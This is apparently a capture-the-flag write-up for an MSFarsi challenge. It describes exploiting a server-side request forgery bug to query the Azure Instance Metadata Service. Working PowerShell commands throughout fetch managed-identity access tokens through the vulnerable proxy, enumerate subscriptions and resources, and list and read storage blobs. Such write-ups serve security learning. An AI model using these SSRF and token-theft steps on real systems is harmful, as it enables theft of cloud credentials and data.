










# MSFarsi CTF: Exploiting SSRF to Access Azure Resources

This CTF challenge was hosted by the **MSFarsi** team. It is designed to test the skills of participants in cloud resource access and security exploitation. The challenge includes an SSRF (Server-Side Request Forgery) vulnerability, which allows participants to make the server send HTTP requests to internal services, such as the Azure Instance Metadata Service (IMDS). By leveraging this bug, participants can retrieve access tokens, enumerate subscriptions and resources, access storage containers, and ultimately obtain the flag.



# Challenge




In the first step, I inspected the webpage elements to understand what was happening behind the scenes. While doing this, I noticed a comment in the code that hinted at how to bypass this step.



The code is `NOCODE`.

After entering the bypass code, I successfully passed the first step and reached the main challenge page, which is shown below.



Instead of reading the page content immediately, I focused on the links. One of them looked particularly interesting to me, the **UTC Time** link. While exploring the content, I also discovered a YouTube link, which I followed and watched. I already knew a bit about SSRF, but since I had never worked with Azure before, I asked ChatGPT to help me figure out how to create an API token for it. After experimenting with the challenge for a while, I went back to the page content, read it again, and carefully checked all the clues that were mentioned.

Then I tried sending a request to ``http://169.254.169.254/metadata/identity/oauth2/token`` to generate the token, but it didn’t work. I watched the YouTube video several times, and it occurred to me to try using PowerShell since the video demonstrated commands in a terminal. At that moment, I realized that the request also required a header parameter, which I had missed earlier.

My first attempt to request the Azure token using PowerShell was:
```
Invoke-RestMethod -Headers @{ Metadata = "true" } -Uri "https://csc.msfarsi.com/service/api/?url=http://169.254.169.254/metadata/identity/oauth2/token?api-version=2018-02-01&resource=https://management.azure.com/"
```
The server responded with **invalid_request – Required query parameter 'resource' is missing**, which helped me realize that I had missed an important parameter in the URL.

The first attempt didn’t work because the Azure token endpoint requires proper URL encoding for special characters like `:` and `/` in the resource parameter. Without encoding, the SSRF proxy cannot correctly interpret the full request, causing it to fail. Additionally, any missing or incorrect headers can also prevent the request from succeeding.

Corrected Request:
```
Invoke-RestMethod -Headers @{ Metadata = "true" } -Uri "https://csc.msfarsi.com/service/api/?url=http://169.254.169.254/metadata/identity/oauth2/token?api-version=2018-02-01%26resource=https%3A%2F%2Fmanagement.azure.com%2F"
```
This version works because the special characters in the URL parameters are properly URL-encoded:
| Character | Encoded Value |
|-----------|---------------|
| &         | %26           |
| :         | %3A           |
| /         | %2F           |

By encoding these characters, the SSRF proxy correctly interprets the full request to the Azure token endpoint.
For more information on percent-encoding, see [Wikipedia: Percent-encoding](https://en.wikipedia.org/wiki/Percent-encoding).

The result of the request is shown below, and it successfully generated the access_token.



Next, I stored the token in a variable. The full PowerShell command is shown below.

```
$response = Invoke-RestMethod -Headers @{ Metadata = "true" } -Uri "https://csc.msfarsi.com/service/api/?url=http://169.254.169.254/metadata/identity/oauth2/token?api-version=2018-02-01%26resource=https%3A%2F%2Fmanagement.azure.com%2F"
$management_token = $response.access_token
```

After obtaining the token, I wanted to see what this account had access to. I asked ChatGPT for guidance and discovered that the endpoint I needed required a subscription ID. First, I retrieved the subscription ID, and then I used it to check the available resources.

The following commands were used to retrieve the subscription ID and store it in a variable:
```
$management_headers = @{ "Authorization" = "bearer $management_token" }
$response = Invoke-RestMethod -Headers $management_headers -Uri "https://management.azure.com/subscriptions?api-version=2020-01-01"
$subscriptionId = $response.value[0].subscriptionId
```

The result of this request is shown below.



Then I used the subscription ID to retrieve the list of resources associated with the account.
The following commands were used to view the resources:
```
$response = Invoke-RestMethod -Headers $management_headers -Uri "https://management.azure.com/subscriptions/$subscriptionId/resources?api-version=2021-04-01"
$response | ConvertTo-Json
```

The result of this request is shown below.



I discovered that the account had a storage resource.

To access the storage resource, I needed to obtain a separate token.
The following commands were used to obtain the storage token and store it in a variable:
```
$response = Invoke-RestMethod -Headers @{ Metadata = "true" } -Uri "https://csc.msfarsi.com/service/api/?url=http://169.254.169.254/metadata/identity/oauth2/token?api-version=2018-02-01%26resource=https%3A%2F%2Fstorage.azure.com%2F"
$storage_token = $response.access_token
```

Next, I used the following commands to retrieve the list of containers in the storage account:
```
$storage_headers = @{ "Authorization" = "bearer $storage_token"; "x-ms-version" = "2020-08-04" }
Invoke-RestMethod -Headers $storage_headers -Uri "https://storageidmsch.blob.core.windows.net/?comp=list"
```

The result of this command is shown below.



Next, I tried to view the list of files in the container using the following command:
```
Invoke-RestMethod -Headers $storage_headers -Uri "https://$storage_name.blob.core.windows.net/$($container_name)?restype=container&comp=list"
```

The result of this command is shown below.



Finally, I used the following command to view the content of the file and capture the flag:
```
Invoke-RestMethod -Headers $storage_headers -Uri "https://storageidmsch.blob.core.windows.net/assets/flag.txt"
```

The flag is:


